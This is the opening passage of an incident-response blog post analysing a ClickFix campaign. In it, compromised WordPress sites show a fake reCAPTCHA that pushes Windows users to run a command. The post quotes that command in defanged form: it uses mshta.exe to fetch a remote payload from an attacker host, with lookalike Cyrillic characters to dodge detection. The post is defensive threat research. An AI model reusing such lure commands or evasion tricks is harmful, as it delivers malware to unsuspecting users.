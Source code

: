 ```yaml
---
created: "2025-05-07T13:26"
updated: "2025-05-07T13:28"
title: "Malware-as-a-Smart-Contract - Weaponising BSC to Target Windows Users via WordPress"
date: "2025-05-08"
categories: 
  - "incident-response"
coverImage: "1.png"
author: "Lili Lin"
---
```


A couple of weeks ago, I found an interesting ClickFix sample (e.g., a fake reCAPTCHA) during an investigation of a compromised WordPress website. A threat actor is infecting legitimate WordPress websites with a malicious Base64 Blob in the
<script></script>

tags, which results in a fake reCAPTCHA and ClickFix trying to get the victim to run malicious codes. The user was prevented from interacting with the site until "reCAPTCHA verification" was completed.

(ClickFix refers to a manipulative tactic where attackers trick users into clicking on malicious elements (links, buttons, pop-ups, or fake system alerts) under the guise of fixing a problem, such as a security issue, software error, or account access problem.  
This type of social engineering attack exploits human psychology by creating a sense of urgency or fear, pressuring victims into taking immediate (but harmful) action.

### **Stage 1 (Injection with malicious Base64 Blob)**

In the first stage, the "reCAPTCHA" window looks no different than usual. However, it prevents the user from interacting with the website, forcing them to click the checkbox. Afterward, it displays the "ClickFix" window. Following the steps from the "ClickFix" window leads to a command: "mshta.exe https\[:\]//check\[.\]bibyn\[.\]icu/gkcxv\[.\]google?i=xxxxxxxxxx \# Нυmаn, nоt а гοbоt: ϹΑРТСНА Ⅴегіfіϲаtіоп ΙD:xxxx". As we can see the word "Ⅴегіfіϲаtіоп" is odd as the attacker used Russian to circumvent security controls based on IoC strings.

<figure>
<img
src="../Malware-as-a-Smart-Contract%20-%20Weaponising%20BSC%20to%20Target%20Windows%20Users%20via%20WordPress/f4d094478e10f5b4d4bfa66dc0520979839c6187.png"
alt="Aclose-upoftextAI-generatedcontentmaybeincorrect." />
<figcaption
aria-hidden="true">Aclose-upoftextAI-generatedcontentmaybeincorrect.</figcaption>
</figure>

Figure 1 Fake reCAPTCHA

<figure>
<img
src="../Malware-as-a-Smart-Contract%20-%20Weaponising%20BSC%20to%20Target%20Windows%20Users%20via%20WordPress/eca0466edfa138893f43bd5aba1d1d4efe14c7a9.png"
alt="AtextonawhitebackgroundAI-generatedcontentmaybeincorrect." />
<figcaption
aria-hidden="true">AtextonawhitebackgroundAI-generatedcontentmaybeincorrect.</figcaption>
</figure>
